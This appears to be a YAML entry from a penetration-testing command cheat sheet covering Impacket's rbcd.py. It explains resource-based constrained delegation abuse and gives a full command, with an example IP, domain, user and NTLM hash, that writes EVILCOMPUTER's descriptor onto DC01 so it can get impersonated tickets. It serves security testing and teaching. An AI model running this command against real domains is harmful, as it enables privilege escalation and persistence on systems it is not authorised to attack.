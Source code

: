 ```yaml
---
description: |
  Impacket rbcd.py will modify the msDS-AllowedToActOnBehalfOfOtherIdentity property of a target computer with security descriptor of another computer.
  The following command adds the related security descriptor of the created EVILCOMPUTER to the msDS-AllowedToActOnBehalfOfOtherIdentity property of DC01.
  This basically means that EVILCOMPUTER can get impersonated service tickets for DC01 using getST.py.

  Command Reference:

      Target IP: 10.10.10.1

      Domain: test.local

      Username: john

      Hash: :A9FDFA038C4B75EBC76DC855DD74F0DA

      Delegate To: DC01$

      Delegate From: EVILCOMPUTER$

command: |
  python3 rbcd.py -action write -delegate-to "DC01$" -delegate-from "EVILCOMPUTER$" -dc-ip 10.10.10.1 -hashes :A9FDFA038C4B75EBC76DC855DD74F0DA test.local/john
items:
  - Username
  - Hash
services:
  - Kerberos
  - SMB
  - LDAP
OS:
  - Linux
  - Windows
phases:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py
  - https://github.com/tothi/rbcd-attack
---
```

